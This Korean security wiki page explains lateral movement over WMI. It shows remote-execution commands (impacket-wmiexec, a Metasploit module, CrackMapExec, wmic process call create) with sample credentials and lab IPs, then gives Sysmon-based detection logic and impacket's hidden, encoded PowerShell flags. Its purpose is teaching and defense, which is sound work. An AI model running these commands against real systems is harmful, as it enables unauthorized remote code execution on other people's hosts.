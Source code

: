 # WMI

WMI (Windows Management Instrumentation)은 1996년 개발된 윈도우 드라이버 모델이다. 주 목적은 다양한 관리 어플리케이션들의 데이터 공유를 위한 인터페이스를 제공하는 것이였다.&#x20;

보안적인 측면에서, 그리고 최근에는 원격 시스템의 코드 실행 및 프로세스 실행을 위해서 많이 쓰인다. 원격 시스템에 처음 접근 할 때는 포트 135를 사용하지만 그 이후에는 높은 번호의 ephemeral 포트가 사용된다.&#x20;

### 전제 조건&#x20;

* 타겟 호스트의 로컬 관리자 권한을 갖고 있는 계정/비밀번호/NTLM해시&#x20;
* 타겟 호스트의 포트 135 접근 가능 여부&#x20;

### 공격&#x20;

{% tabs %}
{% tab title="리눅스" %}
impacket이나 Metasploit등을 이용한다&#x20;

```
# impacket 
impacket-wmiexec '<domain>/<user>:<pass>@<FQDN/IP> -shell-type powershell 
impacket-wmiexec 'pci.choi.local/low:Password123!'@192.168.40.161 -shell-type powershell

# Metasploit 
use auxiliary/scanner/smb/impacket/wmiexec

# CrackMapexec 
cme smb <target> -u <user> -p <pass> -d <domain> --exec-method wmiexec -X whoami
cme smb 192.168.40.150 -u Administrator -p 'Password123!' --exec-method wmiexec -X whoami
```
{% endtab %}

{% tab title="윈도우" %}
따로 툴을 이용할 필요 없이 윈도우에서 제공하는 `wmic.exe` 을 이용한다.&#x20;

```
WMIC.exe /node:<ip> /user:<user> process call create "<process>"

WMIC.exe /node:192.168.40.160 /user:Administrator process call create "notepad.exe"
```
{% endtab %}
{% endtabs %}



### 대응 방안&#x20;

공격자가 사용하는 툴 마다 WMI의 적용방법이 다르지만, 공통적으로 나타나는 현상에 집중한다. 윈도우 호스트에서 직접 `wmic.exe` 프로세스를 이용하건, 리눅스에서 impacket을 이용해 wmiexec.py를 이용하건, 공통적으로 WMI를 이용하는 툴들은 모두 `WmiPrvSE.exe` 라는 프로세스에서 시작된다.&#x20;

![WmiPrvSe.exe에서 시작된 cmd.exe와 powershell.exe 프로세스 체인](<../.gitbook/assets/image (1) (1) (1) (3).png>)

`eventvwr.exe` 를 실행 한 뒤 시스몬 로그들을 확인해보면 공격자가 WMI로 접근을 한 뒤, 첫 명령어를 치자마자 시스몬 아이디 1 - Process Create가 로그된 것을 볼 수 있다.&#x20;

![](../.gitbook/assets/wmi.png)

눈여겨 볼 것은 부모 프로세스로 `wmiprvse.exe` 프로세스가 실행됐다는 것, 그리고 커맨드라인이 심상치 않다는 점이다. base64를 디코딩 해보면&#x20;

```
$ProgressPreference="SilentlyContinue";whoami
```

가 나온다. 앞의 플래그들 또한 `-NoP (노 프로필), -noL (노 로고), -sta (싱글 쓰레드 아파트먼트), -NonI (노 인터렉티브), -W (윈도우 - Hidden)` 등의 악성코드가 자주 사용하는 플래그들이 보인다.&#x20;

따라서 WMI 횡적이동을 탐지하고 대응하기 위해선 다음과 같은 로직들이 필요하다.&#x20;

1. 포트 135 접근 이후 ephemeral 포트로 접근하며&#x20;
2. 타겟 호스트의 로컬 관리자 권한이 있는 유저가&#x20;
3. 부모 프로세스는 `wmiprvse.exe`, 자식 프로세스는 `cmd.exe` 혹은 `powershell.exe` 을 생성하며
4. 최종 실행되는 커맨드라인에 수상한 플래그들이 들어가 있을 경우&#x20;

### 대응 방안 - 주의점&#x20;

WMI 또한 툴 마다 구현이 다르기 때문에 특정 플래그를 하드코딩해 탐지/대응 하는 것은 옳지 않다. 예를 들어 위 로그의 최종 커맨드 라인인 `cmd.exe /Q /c powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc` 은 impacket에 [하드코딩 된 플래그](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py#L127-L129)들이다.&#x20;

```
self.__shell = 'cmd.exe /Q /c '
self.__shell_type = shell_type
self.__pwsh = 'powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc '
```

공격자들은 언제나 이런 하드코딩 된 플래그를 바꿀 수 있고, impacket이 아닌 다른 툴들은 다르게 WMI를 구현할 수 있기 때문에 하드코딩 기반의 탐지/대응 방안은 1개의 툴은 막더라도 다른 툴들은 못 막을 수 있으니 이 점을 유의한다.&#x20;

### 레퍼런스

{% embed url="https://www.elastic.co/guide/en/security/current/wmi-incoming-lateral-movement.html" %}

{% embed url="https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#wmiexecpy" %}

